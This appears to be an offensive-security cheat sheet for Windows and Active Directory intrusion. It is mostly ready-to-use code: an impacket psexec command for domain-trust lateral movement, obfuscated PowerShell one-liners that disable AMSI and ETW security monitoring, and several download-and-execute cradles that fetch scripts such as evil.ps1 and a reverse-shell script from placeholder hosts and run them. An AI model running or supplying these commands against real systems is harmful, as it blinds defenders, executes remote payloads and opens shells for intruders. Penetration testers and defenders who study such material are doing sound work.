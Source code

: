 #### Example impacket Domain Trust ticket
```
python3 /opt/impacket/examples/psexec.py -dc-ip <CHILD DC FQDN> <DOMAIN>/Administrator@<TARGET DC FQDN> -k -no-pass -debug
```

#### AMSI Bypass
- https://amsi.fail/
- Or use the one below
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

#### ETW Bypass
```
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

### Download and execute cradles
- Usefull tool: https://github.com/danielbohannon/Invoke-CradleCrafter
```
iex (New-Object Net.WebClient).DownloadString('http://xx.xx.xx.xx/payload.ps1')
```

#### Full cradle with ETW and AMSI bypass download
```
powershell.exe -c iex (New-Object Net.WebClient).DownloadString('http://x.x.x.x/etw.txt'); iex (New-Object Net.WebClient).DownloadString('http://x.x.x.x/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://x.x.x.x/Invoke-PowerShellTcp.ps1')
```

#### Others
```
$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://xx.xx.xx.xx/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

#PSv3 onwards

iex (iwr 'http://xx.xx.xx.xx/evil.ps1')

$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://xx.xx.xx.xx/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://xx.xx.xx.xx/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
